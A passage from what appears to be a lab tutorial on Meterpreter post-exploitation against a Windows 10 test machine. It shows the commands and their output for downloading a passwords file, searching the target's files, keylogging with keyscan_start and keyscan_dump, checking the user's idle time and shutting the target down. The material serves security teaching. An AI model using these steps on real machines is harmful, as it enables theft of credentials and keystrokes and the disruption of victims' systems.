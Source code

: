 ```
meterpreter > download passwords.txt.txt
[*] Downloading: passwords.txt.txt -> passwords.txt.txt
[*] Downloaded 173.00 B of 173.00 B (100.0%): passwords.txt.txt -> passwords.txt.txt
[*] download   : passwords.txt.txt -> passwords.txt.txt
```
The downloaded file is stored in the **Home** folder by default.

### Locating files with Search

The **search** command helps you locate files on the target machine. The command is capable of search through the whole system or specific folder.

`search -f pagefile.sys`
```
meterpreter > search -f pagefile.sys
Found 1 result...
    c:\pagefile.sys (1476395008 bytes)
```

## Log all the Key strokes

To start capturing all keyboard input from the target system, type:

`keyscan_start`
```
meterpreter > keyscan_start
Starting the keystroke sniffer ...
```
**Switch to the Windows 10**, create a text file and type something:

![quick-brown-fox](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/06e72ef8165b0ca6afd10b3ae2a7859014a9f01b/fox-txt-windows.png)

Switch back to the Kali Linux and **dump the captured Keystrokes**, by typing:

`keyscan_dump`

```
meterpreter > keyscan_dump 
Dumping captured keystrokes...
<Shift><Shift><Shift><Shift>Fox.txt<CR>
<Shift>The quick brown fox jumps over the lazy hacker.<^S>
```

### View the idle time
You can see the number of seconds for which the user has been idle on the remote system, by typing:

`idletime`
```
meterpreter > idletime 
User has been idle for: 4 mins 31 secs
```

You may shut down the target machine after performing post exploitation, by typing:

`shutdown`
```
meterpreter > shutdown
Shutting down...
meterpreter > 
[*] 10.0.2.15 - Meterpreter session 1 closed.  Reason: Died
```
